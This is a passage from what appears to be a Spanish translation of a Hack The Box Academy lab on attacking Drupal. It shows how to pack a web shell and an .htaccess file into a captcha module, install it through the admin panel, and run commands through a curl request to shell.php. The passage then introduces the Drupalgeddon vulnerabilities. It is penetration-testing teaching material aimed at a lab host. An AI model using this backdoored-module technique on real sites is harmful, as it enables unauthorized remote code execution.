 A continuación, necesitamos crear un archivo .htaccess para darnos acceso a la carpeta. Esto es necesario ya que Drupal niega el acceso directo a la carpeta /módulos.

Código:html

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

La configuración anterior aplicará reglas para la carpeta / cuando solicitemos un archivo en / módulos. Copie ambos archivos a la carpeta Captcha y cree un archivo.

Atacando a Drupal

```
xnoxos@htb[/htb]$ mv shell.php .htaccess captchaxnoxos@htb[/htb]$ tar cvf captcha.tar.gz captcha/captcha/
captcha/.travis.yml
captcha/README.md
captcha/captcha.api.php
captcha/captcha.inc
captcha/captcha.info.yml
captcha/captcha.install

<SNIP>

```

Suponiendo que tengamos acceso administrativo al sitio web, haga clic en`Manage`y luego`Extend`en la barra lateral. A continuación, haga clic en el`+ Install new module`botón, y seremos llevados a la página de instalación, como`http://drupal.inlanefreight.local/admin/modules/install`Navegar al archivo de captcha de trasero y haga clic`Install`.

![](https://academy.hackthebox.com/storage/modules/113/module_installed.png)

Una vez que la instalación tenga éxito, navegue a`/modules/captcha/shell.php`para ejecutar comandos.

Atacando a Drupal

```
xnoxos@htb[/htb]$ curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=iduid=33(www-data) gid=33(www-data) groups=33(www-data)

```

---

# **Aprovechando vulnerabilidades conocidas**

Con los años, Drupal Core ha sufrido algunas vulnerabilidades de ejecución de código remoto serios, cada una doblada`Drupalgeddon`. Al momento de escribir, existen 3 vulnerabilidades Drupalgeddon.
